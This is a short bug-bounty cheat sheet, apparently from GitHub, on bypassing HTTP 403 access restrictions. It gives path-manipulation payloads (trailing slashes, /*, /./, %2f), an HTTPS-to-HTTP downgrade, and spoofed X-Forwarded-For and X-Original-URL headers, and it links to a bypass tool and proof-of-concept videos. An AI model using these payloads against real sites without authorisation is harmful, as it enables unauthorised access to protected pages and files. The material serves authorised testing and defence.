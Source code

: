 ## 403 Bypass
I am sharing all this tips and techniques from my own personal experience there no official references for that

### Directory Based
If you see directory with no slash at end then do these acts there
```
site.com/secret => 403
site.com/secret/* => 200
site.com/secret/./ => 200
```
### File Base
If you see file without any slash at end then do these acts there
```
site.com/secret.txt => 403
site.com/secret.txt/ => 200
site.com/%2f/secret.txt/ => 200
```
### Protocol Base
Well, sound wired but check out the example for better understanding
```
https://site.com/secret => 403
http://site.com/secret => 200
```
## Payloads
```
/
/*
/%2f/
/./
./.
/*/
```
### Header
[https://observationsinsecurity.com/2020/08/09/bypassing-403-to-get-access-to-an-admin-console-endpoints/](https://observationsinsecurity.com/2020/08/09/bypassing-403-to-get-access-to-an-admin-console-endpoints/)
```
X-Forwarded-For: 127.0.0.1
X-Original-URL: /yoururl
```

### Tools
Here is a Tool I found on twitter.
* [https://github.com/yunemse48/403bypasser](https://github.com/yunemse48/403bypasser)

## Proof Of Concept
Well Always look for some references or proof of concept if someone sharing any tips so you may confirm you are not wasting your time at all.
I have some poc video on my YouTube channel for 403 and other Improper access control bugs with those methods. You can check them

YouTube: [Mehedi Hasan Remon](https://www.youtube.com/channel/UCF_yxU7acxUojiGiOAMafQQ/videos?view_as=subscriber)

Author:[@remonsec](https://twitter.com/remonsec)
       [@KathanP19](https://twitter.com/KathanP19)
